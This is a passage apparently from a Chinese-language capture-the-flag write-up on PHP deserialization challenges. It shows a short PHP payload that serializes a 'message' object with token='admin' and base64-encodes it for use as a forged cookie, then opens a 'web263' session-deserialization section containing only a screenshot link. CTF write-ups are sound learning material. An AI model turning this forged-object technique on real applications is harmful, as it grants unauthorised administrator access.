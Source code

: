 发送一个值为msg的cookie，并且token=admin

payload：

```php
<?php
 
class message{
    public $token='admin';
}
$a = serialize(new message());
echo base64_encode($a)
 
?>
```

![image-20230822160215709](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230822160215709.png)

### [web263]

session反序列化

![image-20231008182122264](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20231008182122264.png)


